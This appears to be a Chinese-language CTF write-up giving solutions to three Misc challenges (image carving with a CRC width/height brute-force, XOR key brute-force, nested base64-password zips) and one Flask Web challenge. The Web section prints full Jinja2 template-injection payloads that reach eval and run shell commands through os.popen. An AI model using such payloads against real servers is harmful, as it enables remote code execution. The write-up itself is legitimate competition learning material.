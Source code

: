 ### 排名
![](https://cdn.nlark.com/yuque/0/2025/png/49267415/1737894318272-8a71ac3b-1dcb-46f6-89c6-ec418f125684.png)

### See anything in these pics? | Misc | 26
附件中一个png文件和一个zip文件

打开png文件，是一张阿兹特克码，用在线网站[在线阅读Aztec条码](https://products.aspose.app/barcode/zh-hans/recognize/aztec#google_vignette)识别，得到一串字符

![](https://cdn.nlark.com/yuque/0/2025/png/49267415/1737082852181-625aa340-362d-4088-b8b1-01e2432fd666.png)

打开压缩文件，需要密码，我们猜测阿兹特克码识别出的字符串就是压缩包密码，尝试解压，发现密码正确

解压后得到了一张jpg文件，打开查看没有获得任何信息，用16进制编辑器010Editor打开查看

文件头没有异常，但是文件结尾的IEDN并不是jpg文件的文件尾而是png文件的文件尾，于是查找jpg文件尾FFD9

FFD9后紧跟着的就是89504E47，即png文件的文件头

将FFD9后的字节全部剪切到一个新建的十六进制文件中，以png格式保存，得到了一张png图片，但是图中还是没有任何信息

在kali系统中打开我们发现了CRC报错，于是用python脚本进行宽高爆破

```python
import zlib
import struct
import argparse
import itertools


parser = argparse.ArgumentParser()
parser.add_argument("-f", type=str, default=None, required=True,
                    help="输入同级目录下图片的名称")
args  = parser.parse_args()


bin_data = open(args.f, 'rb').read()
crc32key = zlib.crc32(bin_data[12:29]) 
original_crc32 = int(bin_data[29:33].hex(), 16) 


if crc32key == original_crc32: 
    print('宽高没有问题!')
else:
    input_ = input("宽高被改了, 是否CRC爆破宽高? (Y/n):")
    if input_ not in ["Y", "y", ""]:
        exit()
    else: 
        for i, j in itertools.product(range(4095), range(4095)): 
            data = bin_data[12:16] + struct.pack('>i', i) + struct.pack('>i', j) + bin_data[24:29]
            crc32 = zlib.crc32(data)
            if(crc32 == original_crc32): 
                print(f"\nCRC32: {hex(original_crc32)}")
                print(f"宽度: {i}, hex: {hex(i)}")
                print(f"高度: {j}, hex: {hex(j)}")
                exit(0)
```

运行脚本后得到了正确的宽高

在010Editor中修改图片宽高后，图片中出现了flag：flag{opium_00pium}

### 简单算术 | Misc | 12
附件的文本文件中只有一行字符串，根据提示异或我们猜测这段字符串解密后得到的应该就是flag

先猜测密钥为单字符密钥，由于数量较多所以直接用代码遍历所有单字符解密

```python
def xor_decrypt(ciphertext, key):
    return ''.join(chr(c ^ key) for c in ciphertext)

ascii_ciphertext = []
ciphertext = input("请输入密文：")
for i in ciphertext :
	ascii_ciphertext.append(ord(i))

for key in range(256):
    decrypted = xor_decrypt(ascii_ciphertext, key)
    print(f"Key: {key:02x} | Decrypted: {decrypted}")
```

运行结果如下

![](https://cdn.nlark.com/yuque/0/2025/png/49267415/1737108498268-074c2cd8-7bc1-4907-a008-d462339e448c.png)

得到flag：flag{x0r_Brute_is_easy!}

### 压力大，写个脚本吧 | Misc | 29
根据题目提示以及附件的压缩包，猜测应该是100个压缩包套娃

解压文件，发现需要密码，用010Editor查看并不是伪加密，于是用txt文件中的字符串作为密码直接解压，但发现并不是密码

由于txt文本内容的重复性，于是打算截取其中一段作为密码，但是无果

由于base64编码在CTF赛题中运用较为广泛，我们猜测这可能是base64编码，于是将其解码，解码结果作为压缩包密码尝试解压，发现成功了

继续往下尝试了两个压缩包，发现都是一样，txt文件中的字符串经过base64解码后作为密码解压压缩包

有了思路，我们开始编写脚本

```python
from base64 import b64decode
from zipfile import ZipFile

def zipfile_extract(password, zipname):
    dc_password = b64decode(password)
    with ZipFile(zipname, 'r') as zip_ref:
        zip_ref.setpassword(dc_password)
        zip_ref.extractall()

def main():
    for i in range(99, -1, -1):
        textname = 'password_{}.txt'.format(i)
        zipname = 'zip_{}.zip'.format(i)
        with open(textname, "r") as f:
            password = f.read().strip()  
        zipfile_extract(password, zipname)

if __name__ == "__main__":
    main()
```

成功把所有压缩包解压，得到了flag-hint.txt，根据hint，猜测每个压缩包的密码都是png文件的十六进制的一部分

将password_0.txt文本中的字符串进行base64解码，得到的字符串开头为89504E47，是png文件的文件头，证实了我们的猜想

接下来只要将password_0.txt到password_99.txt中的字符串进行base64编码后连接起来就能得到png文件的16进制，我们继续编写脚本完成这一过程

```python
from base64 import b64decode

s = b'' 

for i in range(0,100):
    textname = 'password_{}.txt'.format(i)
    with open(textname, "r") as f:
        password = f.read().strip()  
    s += b64decode(password)  

print(s)
```

运行结果如下

![](https://cdn.nlark.com/yuque/0/2025/png/49267415/1737109604474-fff78f37-843b-4ffe-aed5-2a52b6a0771f.png)

将字符串粘贴到16进制文件中，以png格式保存，得到一张QR码

用[在线阅读QR Code条码](https://products.aspose.app/barcode/zh-hans/recognize/qr#)网站识别QR码得到flag：flag{_PASSWORDs_is_fl@g!_}

![](https://cdn.nlark.com/yuque/0/2025/png/49267415/1737109754047-75182601-db8a-498d-a37e-c7963335f8d8.png)

### easy_flask | Web | 14
根据提示，应该是考察flask模板注入

根据一篇blog[[BUUOJ记录] [RootersCTF2019] I_<3_Flask - Ye’sBlog - 博客园](https://www.cnblogs.com/yesec/p/14905799.html)的提示，注意到其url

![](https://cdn.nlark.com/yuque/0/2025/png/49267415/1737110143997-b1db66cf-4aa6-4d85-b6c8-db7a230fb09e.png)

不过我们已知参数user是可用的，直接使用jinja2模板

构造请求

/?user={%%20for%20c%20in%20[].**class**.**base**.**subclasses**()%20%}%20{%%20if%20c.**name**%20<font style="background-color:#f3bb2f;">%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.</font>**<font style="background-color:#f3bb2f;">init</font>**<font style="background-color:#f3bb2f;">.</font>**<font style="background-color:#f3bb2f;">globals</font>**<font style="background-color:#f3bb2f;">.values()%20%}%20{%%20if%20b.</font>**<font style="background-color:#f3bb2f;">class</font>**<font style="background-color:#f3bb2f;">%20</font>%20{}.**class**%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__("os").popen("ls").read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}

得到了文件列表

![](https://cdn.nlark.com/yuque/0/2025/png/49267415/1737110629491-68faec67-243b-41f1-800b-446ba8ad31cd.png)

找到了flag文件，直接cat

/?user={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__("os").popen("cat%20flag%20reqirement.txt").read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49267415/1737110747354-66467c65-9228-4eed-8fcf-87b893ad8de3.png)



